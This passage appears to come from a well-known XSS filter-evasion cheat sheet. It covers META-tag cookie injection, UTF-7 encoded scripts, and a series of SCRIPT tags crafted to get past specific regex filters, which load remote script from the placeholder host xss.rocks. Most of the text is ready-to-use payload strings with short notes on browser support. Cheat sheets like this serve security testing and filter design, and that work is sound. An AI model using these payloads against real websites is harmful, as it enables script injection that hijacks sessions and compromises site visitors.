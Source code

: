 `<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">`

### UTF-7 Encoding

If the page that the XSS resides on doesn't provide a page charset header, or any browser that is set to UTF-7 encoding can be exploited with the following (Thanks to Roman Ivanov for this one). Click here for an example (you don't need the charset statement if the user's browser is set to auto-detect and there is no overriding content-types on the page in Internet Explorer and Netscape 8.1 in IE rendering engine mode). This does not work in any modern browser without changing the encoding type which is why it is marked as completely unsupported. Watchfire found this hole in Google's custom 404 script.:

`<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-`

### XSS Using HTML Quote Encapsulation

This was tested in IE, your mileage may vary. For performing XSS on sites that allow `<SCRIPT>` but don't allow `<SCRIPT SRC...` by way of a regex filter `/\<script\[^\>\]+src/i`:

`<SCRIPT a=">" SRC="httx://xss.rocks/xss.js"></SCRIPT>`

For performing XSS on sites that allow `<SCRIPT>` but don't allow `\<script src...` by way of a regex filter `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i` (this is an important one, because I've seen this regex in the wild):

`<SCRIPT =">" SRC="httx://xss.rocks/xss.js"></SCRIPT>`

Another XSS to evade the same filter, `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i`:

`<SCRIPT a=">" '' SRC="httx://xss.rocks/xss.js"></SCRIPT>`

Yet another XSS to evade the same filter, `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i`. I know I said I wasn't goint to discuss mitigation techniques but the only thing I've seen work for this XSS example if you still want to allow `<SCRIPT>` tags but not remote script is a state machine (and of course there are other ways to get around this if they allow `<SCRIPT>` tags):

`<SCRIPT "a='>'" SRC="httx://xss.rocks/xss.js"></SCRIPT>`

And one last XSS attack to evade, `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i` using grave accents (again, doesn't work in Firefox):


`<SCRIPT a=`>` SRC="httx://xss.rocks/xss.js"></SCRIPT>`


Here's an XSS example that bets on the fact that the regex won't catch a matching pair of quotes but will rather find any quotes to terminate a parameter string improperly:

`<SCRIPT a=">'>" SRC="httx://xss.rocks/xss.js"></SCRIPT>`

This XSS still worries me, as it would be nearly impossible to stop this without blocking all active content:

`<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="httx://xss.rocks/xss.js"></SCRIPT>`

### URL String Evasion
